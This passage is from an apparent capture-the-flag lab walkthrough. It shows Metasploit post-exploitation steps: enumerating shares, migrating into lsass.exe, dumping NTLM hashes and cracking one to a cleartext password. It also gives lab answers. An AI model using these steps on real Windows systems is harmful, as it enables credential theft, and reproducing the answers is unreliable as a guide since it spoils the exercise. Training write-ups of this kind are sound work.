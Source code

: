 ```
### 5.3: What is the name of the share likely created by the user? 

As per the hint, module ```post/windows/gather/enum_shares``` will get us this information.
```
use post/windows/gather/enum_shares
```
Once again, the only setting we need before running the exploit is called ```SESSION```.
```
set SESSION SESSION_ID
run
```
![image](https://user-images.githubusercontent.com/14150485/170660492-07368442-3ced-4838-bcdc-4455534c71e5.png)

Looks like there are 3 shares available, the one created by the user is likely in lowercase.
```
speedster
```
<br />

### 5.4: What is the NTLM hash of the jchambers user?

Resume the meterpreter session running in the background.
```
session -i SESSION_ID
```
Per the hint on this task, we need to migrate the ```lsass.exe``` process. However, we first need to find its number.
```
ps aux | grep -iF 'lsass.exe'
```
![image](https://user-images.githubusercontent.com/14150485/170661464-72dd745e-30f4-4b96-a8b0-a056fb7dddaf.png)

Now that we know what the ```PID``` number is we can proceed to migrate it as instructed.
```
migrate PID
```
![image](https://user-images.githubusercontent.com/14150485/170661843-3dd1bd2e-4bf9-4073-af8a-d8507644aeb1.png)


Now for the hash dump.
```
hashdump
```
![image](https://user-images.githubusercontent.com/14150485/170661893-927a53b5-3c7c-4f38-abc1-c7e90bae2963.png)
```
69596c7aa1e8daee17f8e78870e25a5c
```
<br />

### 5.5: What is the cleartext password of the jchambers user?

A simple hash check on CrackStation should suffice.

![image](https://user-images.githubusercontent.com/14150485/170662318-b98261e7-b2b6-4d0a-9ee0-98537f7e5d68.png)

```
Trustno1
```
<br />

### 5.6: Where is the "secrets.txt"  file located?
```